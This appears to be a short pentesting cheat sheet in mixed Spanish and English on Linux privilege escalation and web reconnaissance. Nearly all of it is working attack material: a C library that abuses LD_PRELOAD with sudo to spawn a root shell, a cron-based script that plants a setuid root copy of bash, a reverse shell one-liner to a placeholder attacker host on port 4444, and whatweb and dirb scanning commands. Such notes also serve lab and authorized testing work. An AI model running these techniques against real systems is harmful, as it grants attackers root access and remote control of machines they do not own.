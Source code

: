 ```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

```sh
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so find
```

### Crontab

`crontab -l` `cat /etc/crontab`

```sh
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root overwrite.sh
```

`overwrite.sh`

```sh
#1
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```sh
/tmp/rootbash -p
```

```sh
#2
"bash -i >& /dev/tcp/{ATACANTE}/4444 0>&1 "
```

## Web

```sh
whatweb http://{TARGET}
whatweb -v http://{TARGET}
```

### Escanear

```sh
dirb http://{TARGET}
```
